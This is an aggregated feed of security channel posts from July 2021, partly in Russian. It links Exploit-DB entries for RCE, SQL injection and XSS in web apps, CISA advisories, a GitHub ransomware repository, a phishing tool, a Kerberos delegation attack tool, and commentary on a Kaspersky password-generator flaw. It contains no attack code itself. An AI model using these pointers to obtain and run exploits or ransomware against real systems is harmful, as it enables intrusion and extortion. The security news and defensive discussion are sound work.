<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50123?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50123?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Garbage Collection Management System 1.0 - SQL Injection + Arbitrary File Upload.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-13 12:53:47`

<blockquote>
[webapps] OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2)
https://www.exploit-db.com/exploits/50122

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50122?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50122?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2). CVE-2018-15139 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-13 12:53:46`

<blockquote>
[webapps] Invoice System 1.0 - 'Multiple' Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50121

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50121?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50121?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Invoice System 1.0 - 'Multiple' Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-13 12:53:45`

<blockquote>
[webapps] Apache Tomcat 9.0.0.M1 - Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50119

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50119">
https://www.exploit-db.com/exploits/50119
</a>
<blockquote>
Apache Tomcat 9.0.0.M1 - Cross-Site Scripting (XSS). CVE-2019-0221 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-13 12:53:45`

<blockquote>
[webapps] WordPress Plugin WPFront Notification Bar 1.9.1.04012 - Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50120

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50120">
https://www.exploit-db.com/exploits/50120
</a>
<blockquote>
WordPress Plugin WPFront Notification Bar 1.9.1.04012 - Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-13 12:53:44`

<blockquote>
[webapps] Apache Tomcat 9.0.0.M1 - Open Redirect
https://www.exploit-db.com/exploits/50118

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50118">
https://www.exploit-db.com/exploits/50118
</a>
<blockquote>
Apache Tomcat 9.0.0.M1 - Open Redirect. CVE-2018-11784 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-07-13 05:38:21`

<blockquote>
LuemmelSec/Pentest-Tools-Collection
https://github.com/LuemmelSec/Pentest-Tools-Collection
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/LuemmelSec/Pentest-Tools-Collection">
https://github.com/LuemmelSec/Pentest-Tools-Collection
</a>
<blockquote>
Contribute to LuemmelSec/Pentest-Tools-Collection development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-12 18:53:46`

<blockquote>
Critical ForgeRock Access Management Vulnerability
https://us-cert.cisa.gov/ncas/current-activity/2021/07/12/critical-forgerock-access-management-vulnerability

via CISA Current Activity
</blockquote>

<table><tr><td><b>→</b><a href="https://us-cert.cisa.gov/ncas/current-activity/2021/07/12/critical-forgerock-access-management-vulnerability">
https://us-cert.cisa.gov/ncas/current-activity/2021/07/12/critical-forgerock-access-management-vulnerability
</a>
<blockquote>
Malicious cyber actors are actively exploiting a pre-authorization remote code execution vulnerability (CVE-2021-35464) in ForgeRock Access Management—a commercial open access management solution that is based on OpenAM, an open-source access management solution. An attacker exploiting this vulnerability can execute commands in the context of the current user. The vulnerability affects Access Management versions 6.0.0.x, 6.5.0.x, 6.5.1, 6.5.2.x and 6.5.3 and older unsupported versions.

CISA recommends Access Management users:
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-12 16:46:41`

<blockquote>
https://github.com/tothi/rbcd-attack
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/tothi/rbcd-attack">
https://github.com/tothi/rbcd-attack
</a>
<blockquote>
Kerberos Resource-Based Constrained Delegation Attack from Outside using Impacket - GitHub - tothi/rbcd-attack: Kerberos Resource-Based Constrained Delegation Attack from Outside using Impacket
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-12 02:47:03`

<blockquote>
&#35;OSINT

https://github.com/snooppr/snoop
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/snooppr/snoop">
https://github.com/snooppr/snoop
</a>
<blockquote>
Snoop — инструмент разведки на основе открытых данных (OSINT world) - GitHub - snooppr/snoop: Snoop — инструмент разведки на основе открытых данных (OSINT world)
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-11 14:59:17`

<blockquote>
https://github.com/Yaxser/SharpPhish
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/Yaxser/SharpPhish">
https://github.com/Yaxser/SharpPhish
</a>
<blockquote>
Using outlook COM objects to create convincing phishing emails without the user noticing. This project is meant for internal phishing. - GitHub - Yaxser/SharpPhish: Using outlook COM objects to cre...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-09 20:53:45`

<blockquote>
Novus Managment System Vulnerabilities (CVE-2021-34820, CVE-2021-38421)
https://seclists.org/fulldisclosure/2021/Jul/20

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/20">
https://seclists.org/fulldisclosure/2021/Jul/20
</a>
</td></tr></table>

---

# defcon_news
`2021-07-09 11:53:09`

<blockquote>
[webapps] Zoo Management System 1.0 - 'Multiple' Stored Cross-Site-Scripting (XSS)
https://www.exploit-db.com/exploits/50117

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50117?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50117?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Zoo Management System 1.0 - 'Multiple' Stored Cross-Site-Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-09 11:53:08`

<blockquote>
[webapps] Church Management System 1.0 - SQL Injection (Authentication Bypass) + Arbitrary File Upload + RCE
https://www.exploit-db.com/exploits/50116

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50116">
https://www.exploit-db.com/exploits/50116
</a>
<blockquote>
Church Management System 1.0 - SQL Injection (Authentication Bypass) + Arbitrary File Upload + RCE.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# phd_soc
`2021-07-08 18:16:37`

<blockquote>
Кто-нибудь пользовался Sigma правилами? (github.com/SigmaHQ)
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/SigmaHQ">
https://github.com/SigmaHQ
</a>
<blockquote>
A generic rule format to express search queries on log data - Sigma
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-08 11:54:18`

<blockquote>
[webapps] Wordpress Plugin SP Project &amp; Document Manager 4.21 - Remote Code Execution (RCE) (Authenticated)
https://www.exploit-db.com/exploits/50115

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50115?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50115?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Wordpress Plugin SP Project &amp; Document Manager 4.21 - Remote Code Execution (RCE) (Authenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-08 11:54:17`

<blockquote>
[webapps] Online Covid Vaccination Scheduler System 1.0 - Arbitrary File Upload to Remote Code Execution (Unauthenticated)
https://www.exploit-db.com/exploits/50114

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50114">
https://www.exploit-db.com/exploits/50114
</a>
<blockquote>
Online Covid Vaccination Scheduler System 1.0 - Arbitrary File Upload to Remote Code Execution (Unauthenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-08 11:54:16`

<blockquote>
[webapps] Wyomind Help Desk 1.3.6 - Remote Code Execution (RCE)
https://www.exploit-db.com/exploits/50113

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50113">
https://www.exploit-db.com/exploits/50113
</a>
<blockquote>
Wyomind Help Desk 1.3.6 - Remote Code Execution (RCE).. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-08 11:54:14`

<blockquote>
[webapps] Employee Record Management System 1.2 - Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50112

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50112?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50112?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Employee Record Management System 1.2 - Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-08 11:54:13`

<blockquote>
[webapps] Exam Hall Management System 1.0 - Unrestricted File Upload + RCE (Unauthenticated)
https://www.exploit-db.com/exploits/50111

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50111">
https://www.exploit-db.com/exploits/50111
</a>
<blockquote>
Exam Hall Management System 1.0 - Unrestricted File Upload + RCE (Unauthenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-08 10:53:40`

<blockquote>
Script to help mitigate the PrintNightmare CVE-2021-34527 exploit
https://www.reddit.com/r/netsec/comments/ofuijd/script_to_help_mitigate_the_printnightmare/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/ofuijd/script_to_help_mitigate_the_printnightmare/">
https://www.reddit.com/r/netsec/comments/ofuijd/script_to_help_mitigate_the_printnightmare/
</a>
<blockquote>
Posted in r/netsec by u/jokezone • 8 points and 1 comment
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-07-08 10:36:49`

<blockquote>
&#35;it &#35;security
Менеджер паролей &quot;Лаборатории Касперского&quot; в качестве источника энтропии использовал системное время на масштабе секунд. Из-за этого у разных пользователей в одну и ту же секунду получались одни и те же пароли. За год менеджер паролей мог нагенерить только 315619200 уникальных паролей, брутфорс занял бы несколько минут. Зная примерное время генерации пароля (регистрации где-либо) ситуация упрощается ещё больше.

https://donjon.ledger.com/kaspersky-password-manager/
</blockquote>

<table><tr><td><b>→</b><a href="https://donjon.ledger.com/kaspersky-password-manager/">
https://donjon.ledger.com/kaspersky-password-manager/
</a>
<blockquote>
Password generated by Kaspersky Password Manager were predictable (CVE-2020-27020).
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-07-08 05:55:32`

<blockquote>
Kaspersky Password Manager: All your passwords are belong to us

Ну генерил он слабые пароли, кто им пользовался вообще?

Техническое ревью:

https://donjon.ledger.com/kaspersky-password-manager/
</blockquote>

<table><tr><td><b>→</b><a href="https://donjon.ledger.com/kaspersky-password-manager/">
https://donjon.ledger.com/kaspersky-password-manager/
</a>
<blockquote>
Password generated by Kaspersky Password Manager were predictable (CVE-2020-27020).
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-07-07 13:29:38`

* https://donjon.ledger.com/kaspersky-password-manager/

<blockquote>
Никогда мы не доверяли менеджерам паролей. Даже от известных инфосек вендоров. И, как оказывается, правильно делали.
   
Жан-Батист Бедрун, исследователь Ledger Donjon, раскрыл технические подробности уязвимости CVE-2020-27020, которая была найдена в Kaspersky Password Manager (KPM) в июне 2019 года и исправлена спустя четыре месяца.

Итак, реализация KPM содержала в себе несколько упущений, но главная из них заключалась в использовании генератора псевдослучайных чисел (ГПСЧ) Mersenne Twister, который генерит пароль только лишь на основании текущего системного времени в секундах. Таким образом, каждый экземпляр KPM в мире генерирует один и тот же пароль в каждую конкретную секунду.

Всего за год, например, KPM мог сгенерить чуть больше 31,5 млн. паролей, брутфорс которых займет минуты, особенно если злоумышленник приблизительно знает время создания учетной записи (например, на форуме).  

Как мы уже сказали, Касперские довольно оперативно устранили дырку, а вот уведомление пользователей о необходимости повторной генерации паролей вышло лишь спустя год.

Надеемся, ответственные за этот факап товарищи уже выпнуты с голым афедроном на негостеприимные российские морозы.
</blockquote>

<table><tr><td><b>→</b><a href="https://donjon.ledger.com/kaspersky-password-manager/">
https://donjon.ledger.com/kaspersky-password-manager/
</a>
<blockquote>
Password generated by Kaspersky Password Manager were predictable (CVE-2020-27020).
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-07-07 12:07:30`

<blockquote>
https://github.com/tarcisio-marinho/GonnaCry
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/tarcisio-marinho/GonnaCry">
https://github.com/tarcisio-marinho/GonnaCry
</a>
<blockquote>
A Linux Ransomware. Contribute to tarcisio-marinho/GonnaCry development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-07 11:53:25`

<blockquote>
[webapps] WordPress Plugin Plainview Activity Monitor 20161228 - Remote Code Execution (RCE) (Authenticated) (2)
https://www.exploit-db.com/exploits/50110

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50110">
https://www.exploit-db.com/exploits/50110
</a>
<blockquote>
WordPress Plugin Plainview Activity Monitor 20161228 - Remote Code Execution (RCE) (Authenticated) (2). CVE-2018-15877 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-07 11:53:23`

<blockquote>
[webapps] Online Covid Vaccination Scheduler System 1.0 - 'username' time-based blind SQL Injection
https://www.exploit-db.com/exploits/50109

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50109">
https://www.exploit-db.com/exploits/50109
</a>
<blockquote>
Online Covid Vaccination Scheduler System 1.0 - 'username' time-based blind SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-07 11:53:22`

<blockquote>
[webapps] Rocket.Chat 3.12.1 - NoSQL Injection to RCE (Unauthenticated) (2)
https://www.exploit-db.com/exploits/50108

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50108">
https://www.exploit-db.com/exploits/50108
</a>
<blockquote>
Rocket.Chat 3.12.1 - NoSQL Injection to RCE (Unauthenticated) (2). CVE-2021-22911 . webapps exploit for Linux platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-07 11:53:13`

<blockquote>
A PrintNightmare (CVE-2021-34527) Python Scanner. Scan entire subnets for hosts vulnerable to the PrintNightmare RCE
https://www.reddit.com/r/netsec/comments/ofck6d/a_printnightmare_cve202134527_python_scanner_scan/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/ofck6d/a_printnightmare_cve202134527_python_scanner_scan/">
https://www.reddit.com/r/netsec/comments/ofck6d/a_printnightmare_cve202134527_python_scanner_scan/
</a>
<blockquote>
Posted in r/netsec by u/byt3bl33d3r • 237 points and 4 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-07 05:53:15`

<blockquote>
Microsoft Releases Patches for CVE-2021-34527, (Wed, Jul 7th)
https://isc.sans.edu/diary/rss/27610

via SANS Internet Storm Center, InfoCON: green
</blockquote>

<table><tr><td><b>→</b><a href="https://isc.sans.edu/diary/rss/27610">
https://isc.sans.edu/diary/rss/27610
</a>
<blockquote>
Microsoft Releases Patches for CVE-2021-34527, Author: Johannes Ullrich
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-07 03:53:10`

<blockquote>
CVE-2021-27850_POC - A Proof Of Concept For CVE-2021-27850 Affecting Apache Tapestry And Leading To Unauthencticated Remote Code Execution
https://exploit.kitploit.com/2021/07/cve-2021-27850poc-proof-of-concept-for.html

via Exploit Collector
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2021/07/cve-2021-27850poc-proof-of-concept-for.html">
https://exploit.kitploit.com/2021/07/cve-2021-27850poc-proof-of-concept-for.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-07 03:53:09`

<blockquote>
Microsoft Releases Out-of-Band Security Updates for PrintNightmare
https://us-cert.cisa.gov/ncas/current-activity/2021/07/06/microsoft-releases-out-band-security-updates-printnightmare

via CISA Current Activity
</blockquote>

<table><tr><td><b>→</b><a href="https://us-cert.cisa.gov/ncas/current-activity/2021/07/06/microsoft-releases-out-band-security-updates-printnightmare">
https://us-cert.cisa.gov/ncas/current-activity/2021/07/06/microsoft-releases-out-band-security-updates-printnightmare
</a>
<blockquote>
Microsoft has released out-of-band security updates to address a remote code execution (RCE) vulnerability—known as PrintNightmare (CVE-2021-34527)—in the Windows Print spooler service. According to the CERT Coordination Center (CERT/CC), “The Microsoft Windows Print Spooler service fails to restrict access to functionality that allows users to add printers and related drivers, which can allow a remote authenticated attacker to execute arbitrary code with SYSTEM privileges on a vulnerable system.”
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-07 01:53:11`

<blockquote>
Exploiting the Sudo Baron Samedit vulnerability (CVE-2021-3156) on VMWare vCenter Server 7.0
https://www.reddit.com/r/netsec/comments/of2zfb/exploiting_the_sudo_baron_samedit_vulnerability/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/of2zfb/exploiting_the_sudo_baron_samedit_vulnerability/">
https://www.reddit.com/r/netsec/comments/of2zfb/exploiting_the_sudo_baron_samedit_vulnerability/
</a>
<blockquote>
Posted in r/netsec by u/digicat • 3 points and 0 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 22:53:25`

<blockquote>
Virus.Win32.Shodi.e / Heap Corruption
https://seclists.org/fulldisclosure/2021/Jul/19

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/19">
https://seclists.org/fulldisclosure/2021/Jul/19
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 22:53:24`

<blockquote>
Virus.Win32.Shodi.e / Unauthenticated Remote Command Execution
https://seclists.org/fulldisclosure/2021/Jul/18

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/18">
https://seclists.org/fulldisclosure/2021/Jul/18
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 22:53:23`

<blockquote>
Virus.Win32.Shodi.e / Insecure Transit
https://seclists.org/fulldisclosure/2021/Jul/17

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/17">
https://seclists.org/fulldisclosure/2021/Jul/17
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 22:53:22`

<blockquote>
Backdoor.Win32.WinShell.40 / Authentication Bypass Command Execution
https://seclists.org/fulldisclosure/2021/Jul/16

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/16">
https://seclists.org/fulldisclosure/2021/Jul/16
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 22:53:21`

<blockquote>
Backdoor.Win32.Zombam.l / Unauthenticated URL Command Injection
https://seclists.org/fulldisclosure/2021/Jul/15

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/15">
https://seclists.org/fulldisclosure/2021/Jul/15
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 22:53:20`

<blockquote>
Backdoor.Win32.Zombam.l / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jul/14

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/14">
https://seclists.org/fulldisclosure/2021/Jul/14
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:35`

<blockquote>
Trojan.Win32.Inject.adwas / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jul/13

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/13">
https://seclists.org/fulldisclosure/2021/Jul/13
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:33`

<blockquote>
HEUR.Trojan.Win32.Generic / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jul/12

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/12">
https://seclists.org/fulldisclosure/2021/Jul/12
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:32`

<blockquote>
Trojan-Dropper.Win32.Agent.wxl / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jul/11

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/11">
https://seclists.org/fulldisclosure/2021/Jul/11
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:31`

<blockquote>
Trojan.Win32.VB.bcng / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jul/10

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/10">
https://seclists.org/fulldisclosure/2021/Jul/10
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:30`

<blockquote>
Backdoor.Win32.Hupigon.gsy / Unauthenticated Open Proxy
https://seclists.org/fulldisclosure/2021/Jul/9

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/9">
https://seclists.org/fulldisclosure/2021/Jul/9
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:28`

<blockquote>
Backdoor.Win32.Hupigon.aiss / Unauthenticated Open Proxy
https://seclists.org/fulldisclosure/2021/Jul/8

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/8">
https://seclists.org/fulldisclosure/2021/Jul/8
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:27`

<blockquote>
Trojan-Proxy.Win32.Ranky.ag / Unauthenticated Open Proxy
https://seclists.org/fulldisclosure/2021/Jul/7

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/7">
https://seclists.org/fulldisclosure/2021/Jul/7
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:23`

<blockquote>
Trojan-Spy.Win32.Xspyout.a / Unauthenticated Open Proxy
https://seclists.org/fulldisclosure/2021/Jul/6

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/6">
https://seclists.org/fulldisclosure/2021/Jul/6
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:22`

<blockquote>
Trojan-Dropper.Win32.SVB.cz / Port Bounce Scan (MITM)
https://seclists.org/fulldisclosure/2021/Jul/5

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/5">
https://seclists.org/fulldisclosure/2021/Jul/5
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:21`

<blockquote>
Trojan-Dropper.Win32.SVB.cz / Authentication Bypass RCE
https://seclists.org/fulldisclosure/2021/Jul/4

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/4">
https://seclists.org/fulldisclosure/2021/Jul/4
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:20`

<blockquote>
Backdoor.Win32.NerTe.781 / Unauthenticated Remote Command Execution
https://seclists.org/fulldisclosure/2021/Jul/3

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/3">
https://seclists.org/fulldisclosure/2021/Jul/3
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:19`

<blockquote>
Backdoor.Win32.NerTe.781 / Authentication Bypass RCE
https://seclists.org/fulldisclosure/2021/Jul/2

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/2">
https://seclists.org/fulldisclosure/2021/Jul/2
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:17`

<blockquote>
IoT/ICS Armageddon: hacking devices like there’s no tomorrow (part 1)
https://seclists.org/fulldisclosure/2021/Jul/1

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/1">
https://seclists.org/fulldisclosure/2021/Jul/1
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 21:53:16`

<blockquote>
Three vulnerabilities found in MikroTik's RouterOS
https://seclists.org/fulldisclosure/2021/Jul/0

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/0">
https://seclists.org/fulldisclosure/2021/Jul/0
</a>
</td></tr></table>

---

# defcon_news
`2021-07-06 20:53:33`

<blockquote>
Pallets Werkzeug 0.15.4 Path Traversal
https://packetstormsecurity.com/files/163398/CVE-2019-14322.py.txt

via Exploit Files ≈ Packet Storm
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/163398/CVE-2019-14322.py.txt">
https://packetstormsecurity.com/files/163398/CVE-2019-14322.py.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2021-07-06 19:02:59`

* https://threatpost.com/kaseya-patches-zero-day-exploits/167548/

<blockquote>
❌ Kaseya Patches Imminent After Zero-Day Exploits, 1,500 Impacted ❌

REvil ransomware gang lowers price for universal decryptor after massive worldwide ransomware push against Kaseya security vulnerability CVE-2021-30116.

📖 Read

via &quot;Threat Post&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://threatpost.com/kaseya-patches-zero-day-exploits/167548/">
https://threatpost.com/kaseya-patches-zero-day-exploits/167548/
</a>
<blockquote>
REvil ransomware gang lowers price for universal decryptor after massive worldwide ransomware push against Kaseya security vulnerability CVE-2021-30116.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 18:53:07`

<blockquote>
Kaseya Patches Imminent After Zero-Day Exploits, 1,500 Impacted
https://threatpost.com/kaseya-patches-zero-day-exploits/167548/

via Threatpost
</blockquote>

<table><tr><td><b>→</b><a href="https://threatpost.com/kaseya-patches-zero-day-exploits/167548/">
https://threatpost.com/kaseya-patches-zero-day-exploits/167548/
</a>
<blockquote>
REvil ransomware gang lowers price for universal decryptor after massive worldwide ransomware push against Kaseya security vulnerability CVE-2021-30116.
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-07-06 16:44:58`

<blockquote>
видимо, криворукие криптеры тоже вечны
https://donjon.ledger.com/kaspersky-password-manager/
</blockquote>

<table><tr><td><b>→</b><a href="https://donjon.ledger.com/kaspersky-password-manager/">
https://donjon.ledger.com/kaspersky-password-manager/
</a>
<blockquote>
Password generated by Kaspersky Password Manager were predictable (CVE-2020-27020).
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 15:53:38`

<blockquote>
Sifchain: Cross-site Scripting (XSS) possible at https://sifchain.finance// via CVE-2019-8331 exploitation
https://vulners.com/hackerone/H1:1218173?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss

via Vulners
</blockquote>

<table><tr><td><b>→</b><a href="https://sifchain.finance/">
https://sifchain.finance/
</a>
<blockquote>
Omni-chain DEX for DAOs
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 13:53:16`

<blockquote>
[webapps] WordPress Plugin Anti-Malware Security and Bruteforce Firewall 4.20.59 - Directory Traversal
https://www.exploit-db.com/exploits/50107

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50107?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50107?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
WordPress Plugin Anti-Malware Security and Bruteforce Firewall 4.20.59 - Directory Traversal.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 13:53:15`

<blockquote>
[webapps] Phone Shop Sales Managements System 1.0 - 'Multiple' Arbitrary File Upload to Remote Code Execution
https://www.exploit-db.com/exploits/50106

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50106">
https://www.exploit-db.com/exploits/50106
</a>
<blockquote>
Phone Shop Sales Managements System 1.0 - 'Multiple' Arbitrary File Upload to Remote Code Execution.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 13:53:14`

<blockquote>
[webapps] Phone Shop Sales Managements System 1.0 - Authentication Bypass (SQLi)
https://www.exploit-db.com/exploits/50105

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50105">
